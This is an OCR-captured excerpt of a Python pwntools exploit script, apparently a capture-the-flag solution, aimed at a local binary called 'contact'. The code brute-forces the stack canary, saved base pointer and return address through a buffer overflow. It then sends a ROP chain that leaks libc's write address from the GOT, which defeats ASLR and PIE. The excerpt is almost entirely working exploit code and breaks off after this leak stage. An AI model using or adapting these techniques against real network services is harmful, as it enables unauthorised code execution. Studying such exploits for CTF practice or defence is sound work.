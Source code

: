     elf = context.binary = ELF('./contact', checksec=False)
    host = '127.0.0.1'
    port = 1337


    ### Stage 0: Brute force addresses
    log.info("Starting brute force")
    exploit = b"A"*56
    canary = brute_word(exploit, 8, 'Canary')
    #canary = p64(0xc3c00f67449ca300)
    exploit += canary


    rbp = brute_word(exploit, 8, 'RBP')
    #rbp = p64(0x00007ffdf7d5285c)
    exploit += rbp

    ret = brute_word(exploit, 7, 'Return Address', b'\x62')
    #ret = p64(0x0000556ff9dd4562)


    ### Stage 1: Leak libc
    # Gadgets
    prog_base = u64(ret) - 0x1562
    pop_rdi_ret = p64(0x164b + prog_base)
    pop_rsi_r15_ret = p64(0x1649 + prog_base)
    pop_rdx_ret = p64(0x1265 + prog_base)
    write = p64(0x1050 + prog_base)
    write_got = p64(0x4028 + prog_base)

    junk = b"A"*56
    exploit =  junk + canary + rbp

    # write(4, write_got, 8)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += write_got
    exploit += p64(0)
    exploit += pop_rdx_ret
    exploit += p64(8)
    exploit += write

    log.info("Sending exploit to leak libc write address")
    p = remote(host, port)
    p.recvuntil("Please enter the message you want to send to admin:\n")
    p.send(exploit)
    libc_write = p.recv(8, timeout=300)
    log.success(f"libc write address: 0x{u64(libc_write):016x}")
    p.close()
